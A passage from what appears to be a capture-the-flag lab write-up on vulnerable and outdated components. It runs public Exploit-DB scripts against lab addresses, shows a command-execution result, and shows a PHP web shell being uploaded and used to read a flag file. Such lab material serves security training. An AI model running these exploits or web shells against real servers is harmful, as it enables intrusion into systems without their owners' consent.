 ```bash
python2 47837.py 127.0.0.1 80 id

```

You got:

```bash
uid=1001(_nostromo) gid=1001(_nostromo) groups=1001(_nostromo)

```

✅ **BOOM!** You have **Remote Code Execution** — you can now run commands on the server!

### 💡 Key Takeaways:

- If software is outdated, it’s often **already vulnerable**.
- Many public exploits are already written.
- You just need to find the software version and **match it with an existing CVE**.
- Sometimes exploits are buggy — know a little code to fix them.

## Vulnerable and Outdated Components - Lab

![Screenshot From 2025-05-24 04-26-43.png](img14.png)

[https://www.exploit-db.com/exploits/47887](https://www.exploit-db.com/exploits/47887)

```jsx
└─$ python3 47887.py http://10.10.95.2:84/
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.95.2:84/bootstrap/img/p8FFawxJFu.php
> Example command usage: http://10.10.95.2:84/bootstrap/img/p8FFawxJFu.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $ ls
android_studio.jpg
beauty_js.jpg
c_14_quick.jpg
c_sharp_6.jpg
doing_good.jpg
img1.jpg
img2.jpg
img3.jpg
kotlin_250x250.png
logic_program.jpg
mobile_app.jpg
p8FFawxJFu.php
pro_asp4.jpg
pro_js.jpg
unnamed.png
web_app_dev.jpg

RCE $ cat /../../opt/flag.txt
THM{But_1ts_n0t_my_f4ult!}

RCE $ 

```
